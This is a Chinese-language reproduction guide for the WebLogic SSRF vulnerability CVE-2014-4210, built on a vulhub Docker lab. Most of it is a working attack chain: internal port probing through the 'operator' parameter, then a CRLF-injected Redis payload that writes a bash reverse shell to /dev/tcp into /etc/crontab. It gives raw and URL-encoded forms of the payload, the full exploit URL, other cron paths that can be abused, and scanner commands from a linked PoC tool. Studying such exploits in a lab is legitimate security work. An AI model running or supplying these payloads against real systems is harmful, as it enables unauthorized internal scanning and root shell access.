

# Weblogic SSRF漏洞 CVE-2014-4210

## 漏洞描述

Weblogic中存在一个SSRF漏洞，利用该漏洞可以发送任意HTTP请求，进而攻击内网中redis、fastcgi等脆弱组件，此漏洞可通过HTTP协议利用，未经身份验证的远程攻击者可利用此漏洞影响受影响组件的机密性

## 漏洞影响

```
Oracle WebLogic Server 10.0.2.0
Oracle WebLogic Server 10.3.6.0
```

## 环境搭建

```plain
git clone https://github.com/vulhub/vulhub.git
cd vulhub/weblogic/ssrd
docker-compose up -d
```

访问 http://xxx.xxx.xxx.xxx:7001 正常即可


## 漏洞复现

出现漏洞的 URL为 : http://xxx.xxx.xxx.xxx:7001/uddiexplorer/SearchPublicRegistries.jsp


使用 payload 进行探测, 将探测的位置写在 operator参数中

注意需要知道内网 IP

```plain
http://xxx.xxx.xxx.xxx:7001/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://xxx.xxx.xxx.xxx:7001
```

通过查看报错内容来进行判断


存在的报错内容如图，关键字为 **404**, 例如把 **operator** 参数改成 [**http://xxx.xxx.xxx.xxx:7000**](http://xxx.xxx.xxx.xxx:7000) 这样不存在的则报错内容如下图


通过这样的方法就可以探测内网的开放端口情况，例如内网中有一台主机 **IP：172.19.0.2** 开启了 **6379端口的redis服务**


如果访问的非http协议，则会返回**did not have a valid SOAP content-type**，这样通过错误的不同，即可探测内网状态。

Weblogic的SSRF有一个比较大的特点，其虽然是一个“GET”请求，但是我们可以通过传入`%0a%0d`来注入换行符，而某些服务（如redis）是通过换行符来分隔每条命令，也就说我们可以通过该SSRF攻击内网中的redis服务器。

发送三条redis命令，将弹shell脚本写入**/etc/crontab** 中：

```shell
set 1 "\n\n\n\n* * * * * root bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
```

接着再将请求进行 **url编码**,

注意，换行符是“\r\n”，也就是“%0D%0A”

```shell
test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fxxx.xxx.xxx.xxx%2F9999%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
```

发送payload

```shell
http://xxx.xxx.xxx.xxx:7001/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://172.19.0.2:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.19.0.3%2F9999%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
```

发送后监听 **172.19.0.3 9999端口** 等待反弹shell


最后补充一下，可进行利用的cron有如下几个地方：

- /etc/crontab 这个是肯定的

- /etc/cron.d/* 将任意文件写到该目录下，效果和crontab相同，格式也要和/etc/crontab相同。漏洞利用这个目录，可以做到不覆盖任何其他文件的情况进行弹shell。
- /var/spool/cron/root centos系统下root用户的cron文件
- /var/spool/cron/crontabs/root debian系统下root用户的cron文件

## 漏洞POC

[GitHub脚本 CVE-2014-4210+Redis未授权访问](https://github.com/NoneNotNull/SSRFX)

```shell
存活扫描:
python SSRFX.py --url http://example.com/uddiexplorer/SearchPublicRegistries.jsp --app weblogic --network 172.16.5.0/24 --type livedetect

端口扫描:
python SSRFX.py --url http://example.com/uddiexplorer/SearchPublicRegistries.jsp --app weblogic --network 172.16.5.0/24 --type portscan
```

